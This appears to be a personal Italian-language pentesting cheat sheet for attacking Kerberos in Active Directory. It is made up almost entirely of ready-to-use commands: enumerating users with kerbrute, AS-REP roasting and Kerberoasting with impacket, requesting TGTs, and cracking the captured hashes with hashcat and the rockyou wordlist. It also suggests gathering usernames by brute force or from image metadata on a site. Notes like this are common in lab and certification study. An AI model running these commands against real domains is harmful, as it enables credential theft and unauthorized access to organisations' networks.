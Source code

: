 
==Se da errore KRB_AP_ERR_SKEW==
```bash
timedatectl set-ntp false
ntpdate <IP>
```
### **ENUM USER**
==GLI USER POTRESTI ANCHE BRUTEFORZARLI O TROVARLI TRA I METADATA DELLE IMMAGINI SUL SITO==
```bash
kerbrute userenum -d <NOME DOMINIO> --dc <IP DC> <LISTA>
```
![[Pasted image 20230510110607.png]]
### **AspeRoasting**

```bash
impacket-GetNPUsers '<NOME DOMINIO>/' -no-pass -usersfile users.txt -format hashcat -outputfile hash
```
==L'HASH VIENE MESSO NEL FILE DI OUTPUT==
Dopo cracca l'hash
### **Kerberoasting**
```bash
impacket-GetUserSPNs <NOME MACCHINA>/<USER>:<PASS> -request
```
### **TGT BruteForce**
```bash
impacket-getTGT '<DOMAIN>/<USERS>:<PWD>'
```
```bash
export KRB5CCNAME=..../user.chace
```
### **CRACK KRB5 HASH**
```bash
hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```